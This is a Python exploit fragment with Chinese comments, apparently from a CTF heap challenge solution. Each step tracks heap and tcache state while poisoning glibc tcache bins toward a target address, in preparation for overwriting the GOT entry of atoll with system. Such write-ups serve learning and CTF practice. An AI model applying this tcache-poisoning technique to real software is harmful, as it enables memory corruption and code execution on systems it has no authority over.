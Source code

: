 ```python

# ====== 投毒 tcache[0] =======
alloc(0,16,"aaaa")
# heap[0]-> chunk0
# heap[1] -> NULL
realloc(0,0)
# tcache[0] -> chunk0
# heap[0] -> chunk0
# heap[1] -> NULL
realloc(0,16,pack(TARGET_ADDR))
# tcache[0] -> chunk0 -> TARGET_ADDR
# heap[0] -> chunk0(32size)
# heap[1] -> NULL

# 取下来,这时chunk0中的key已经置为0
alloc(1,16,"bbbb")
# tcache[0]->TARGET_ADDR
# heap[0] -> chunk0(32size)
# heap[1] -> chunk0

# -----现在把两个heap指针变为0-----

# 扩展chunk 0,扩展是为了释放时能把chunk放到另一个tcache bin中。
realloc(0,32,"aaaa")
# tcache[0]->TARGET_ADDR
# heap[0] -> chunk0'(48size)
# heap[1] -> chunk0'

rfree(0)
# tcache[0]->TARGET_ADDR
# tcache[1]->chunk0'(48size)
# heap[0] -> NULL
# heap[1] -> chunk0'

realloc(1,48,"aaaa")
# tcache[0]->TARGET_ADDR
# tcache[1]->chunk0''(64size)
# heap[0] -> NULL
# heap[1] -> chunk0''

rfree(1)
# tcache[0]->TARGET_ADDR
# tcache[1]->chunk0''(64size)
# tcache[2]->chunk0''  tcahce[2]中的循环不会找到 <https://elixir.free-electrons.com/glibc/glibc-2.29.9000/source/malloc/malloc.c#L4205>
# heap[0] -> NULL
# heap[1] -> NULL


# ======== 故技重施 tcache[0]投毒完成,现在投毒第二个tcache ===========
# 还需要投毒一个tcache, 为后面 got['atoll'] 中写system 作准备

alloc(0,64,"aaaa")
# heap[0] -> chunk1(80size)

realloc(0,0)
# tcache[3] -> chunk1
# heap[0] -> chunk1

realloc(0,64,pack(TARGET_ADDR))
# tcache[3] -> chunk1 -> TARGET_ADDR
# heap[0] -> chunk1

```